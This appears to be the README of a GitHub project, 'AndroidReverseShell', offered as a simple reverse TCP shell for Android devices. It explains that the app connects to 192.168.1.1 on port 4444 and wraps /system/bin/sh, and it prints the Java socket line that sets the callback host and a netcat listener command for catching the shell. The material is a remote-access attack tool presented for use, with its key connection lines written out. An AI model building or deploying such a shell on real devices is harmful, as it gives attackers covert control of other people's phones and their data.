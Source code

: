 AndroidReverseShell
===================

A simple reverse TCP shell example for Android

## Notes

This example makes a reverse TCP connection to 192.168.1.1 on port 4444 wrapping the `system/bin/sh` process.

To edit connection details modify the Socket constructor in the source:

`Socket socket = new Socket("192.168.1.1", 4444);`
		

To listen for a connection use a program such as Netcat to listen on the specified port.

Netcat Example: `nc -l -p 4444`
